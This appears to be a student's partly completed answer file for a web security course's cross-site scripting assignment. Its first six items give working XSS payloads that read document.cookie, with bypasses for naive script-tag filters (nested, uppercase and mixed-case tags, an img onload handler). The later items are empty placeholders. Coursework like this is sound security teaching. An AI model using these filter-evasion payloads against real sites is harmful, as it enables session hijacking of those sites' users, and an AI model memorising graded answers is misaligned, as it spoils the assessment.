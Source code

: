 # 0. Welcome

N/A

# 1. A Truly Disruptive Startup (3 points)

```js
<script>console.log(document.cookie)</script>
```

# 2. No Script Allowed (3 points)

Non recursive stripping of ```<script>``` tag allows us to bypass filter by embedding ```script``` within ```script``` like so: ```<scriscriptpt>```

```
<scriscriptpt>console.log(document.cookie)</script>
```

# 3. One More Time, Like You Mean It (3 points)

Same solution as above, except this time the regex will catch all instances of the word ```script```, so we need to hide ```script``` within the end tag as well.

```
<scriscriptpt>console.log(document.cookie)</scriscriptpt>
```

# 4. An Open-and-Shut Case (3 points)

This time regex is used to recursively remove the word ```script``` but the ```i``` flag is not set, so we can just do ```<SCRIPT>``` instead of ```<script>```.

```js
<SCRIPT>console.log(document.cookie)</SCRIPT>
```

# 5. Time to Mix Things Up (3 points)

This time both ```script``` and ```SCRIPT``` are blacklisted so we can use ```ScRiPt``` instead to bypass the filter.

```js
<ScRiPt>console.log(document.cookie)</ScRiPt>
```

# 6. A Picture is Worth a Thousand Words (3 points)

```html
<img src="https://web.stanford.edu/class/cs253/stanford.svg" onload=console.log(document.cookie)>
```

# 7. Between a Rock And a Hard Place (3 points)

```
TODO: Replace this with your attack input.
```

# 8. Angle of Death (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 9. All in a Day's Work

N/A

# 10. In the Wrong Place at the Wrong Time (3 points)

```
TODO: Replace this with your attack input.
```

# 11. You Can't Win 'em All (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 12. When All is Said and Done (6 points)

Attack input:

```
TODO: Replace this with your attack input.
```

Server code:

```js
router.get('/search', async (req, res) => {
  let q = req.query.q
  if (q == null) q = ''

  // TODO: Replace this with your solution.
  // q = ???

  const results = await getResults(q)
  res.render('caloogle-search-page', { q, results })
})
```

# 13. When You Want a Job Done Right

N/A

# 14. Here Today and Gone Tomorrow (3 points)

Attack URL:

```
TODO: Replace this with your solution. **This should be a URL!**
```

# 15. The Early Bird Catches the Worm (3 points)

```
TODO: Replace this with your attack input.
```

# 16. Tying Up Loose Ends (3 points)

```
TODO: Replace this with your attack input.
```

# 17. Take a Page Out of Their Book (6 points)

Attack code:

```js
// TODO: Replace this with your solution.
```

# 18. Congrats

N/A

# Survey responses (3 points)

Write your survey responses in SURVEY.md!
